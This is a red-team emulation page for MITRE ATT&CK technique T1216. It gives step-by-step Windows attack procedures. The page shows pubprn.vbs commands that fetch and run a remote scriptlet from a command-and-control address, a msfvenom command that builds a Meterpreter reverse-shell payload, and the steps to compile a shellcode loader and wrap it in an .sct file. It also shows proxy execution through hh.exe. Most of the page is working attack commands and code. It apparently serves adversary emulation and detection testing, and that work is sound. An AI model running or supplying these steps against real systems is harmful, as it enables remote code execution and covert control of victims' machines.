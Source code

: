 # Signed Script Proxy Execution

---
* **ID**: T1216
* **Source**: <https://attack.mitre.org/techniques/T1216/>
---

# Details

## pubprn.vbs
### Execute remote payload in JavaScript
* OS: Windows 7 / Windows 2008 R2 (Version 6.1), Windows 8.1 / Windows 2012 R2 (Version 6.3), Windows 10 / Windows 2016 (Version 1607)
* Methods:
  * Option 1:
  ```
   C:\Windows\SysWOW64\CScript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```
  * Option 2:
  ```
  C:\Windows\SysWOW64\CScript.exe /b C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```

### Create payload (.sct) in JavaScript for Meterpreter

* Compile CSharp source code [`shellcode.cs`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs) to DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -unsafe -platform:x86 -target:library shellcode.cs
```
*	Generate a x86 shellcode in base64 format, e.g. meterpreter:
```
msfvenom -p windows/meterpreter/reverse_tcp --smallest -a x86 --platform win LHOST=<ip_of_C2> LPORT=<port_of_C2> -f raw | base64
```
*	Replace parameter code in [`cmd.txt`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt)  with the shellcode in base64 format
*	Leverage [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)  to convert DLL `shellcode.dll` into JS file `payload.js`:
```
C:\Users\win7x64\Desktop\release_v1.0.4\DotNetToJScript.exe -c ShellCodeLauncher.Program -v v4 -s C:\Tools\cmd.txt -o c:\Tools\payload.js c:\Tools\shellcode.dll
```
*	Copy the content of JS file `payload.js` and insert into the code below:
```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="PoC"
    progid="PoC"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
    <![CDATA[
        // Insert the content of JS file "payload.js" here
        <content_of_payload_js>
    ]]>
</script>
</scriptlet>
```
* Save the aforementioned code as a file (e.g. `payload.sct`)

## hh.exe
## Execute
Executes `calc.exe` with HTML Help.
```
hh.exe c:\windows\system32\calc.exe
```
* Usecase: Execute process with `hh.exe`
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

# References

* <https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/>
* <https://evi1cg.me/archives/remote_exec.html>
* <https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct>
* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216/T1216.md>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt>
* <https://github.com/tyranid/DotNetToJScript>
* <https://lolbas-project.github.io/lolbas/Binaries/Hh/>
